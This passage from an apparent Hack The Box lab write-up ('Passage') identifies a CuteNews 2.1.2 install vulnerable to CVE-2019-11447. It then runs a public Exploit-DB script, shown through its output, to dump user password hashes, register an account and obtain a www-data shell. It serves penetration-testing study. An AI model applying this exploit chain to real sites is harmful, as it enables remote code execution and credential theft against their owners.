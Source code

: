 Down the bottom of the page is "Powered by CuteNews" which is the PHP application on which the site is built on. By reading the source further, I find the login page for the CMS at http://passage.htb/CuteNews/. This also gives me the application version - 2.1.2, for which there is a RCE vulnerability present - https://nvd.nist.gov/vuln/detail/CVE-2019-11447. Luckily, it is possible to create a user via the page: http://passage.htb/CuteNews/index.php?register  
I try this out and it allows me to make a user account.

### 3. Get a foothold
Using the exploit at https://www.exploit-db.com/exploits/48800 (see cutenews212exp.py) I can dump hashes and drop into a shell.
```bash
kali@kali:~/Desktop/htb/passage$ python3 cutenews212exp.py 



           _____     __      _  __                     ___   ___  ___ 
          / ___/_ __/ /____ / |/ /__ _    _____       |_  | <  / |_  |
         / /__/ // / __/ -_)    / -_) |/|/ (_-<      / __/_ / / / __/ 
         \___/\_,_/\__/\__/_/|_/\__/|__,__/___/     /____(_)_(_)____/ 
                                ___  _________                        
                               / _ \/ ___/ __/                        
                              / , _/ /__/ _/                          
                             /_/|_|\___/___/                          
                                                                      

                                                                                                                                                   

[->] Usage python3 expoit.py

Enter the URL> http://passage.htb/
================================================================
Users SHA-256 HASHES TRY CRACKINGTHEM WITH HASHCAT OR JOHN
================================================================
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
================================================================

=============================
Registering a users
=============================
[+] Registration successful with username: QuaX05Ibpj and password: QuaX05Ibpj

=======================================================
Sending Payload
=======================================================
signature_key: 6877041cdd79ccc9ef97656f310fb0e8-QuaX05Ibpj
signature_dsi: 29f8c6ac8219513e7e4878ca0598f115
logged in user: QuaX05Ibpj
============================
Dropping to a SHELL
============================

command > whoami 
www-data
```
The shell is cool and I also get some SHA256 password hashes.
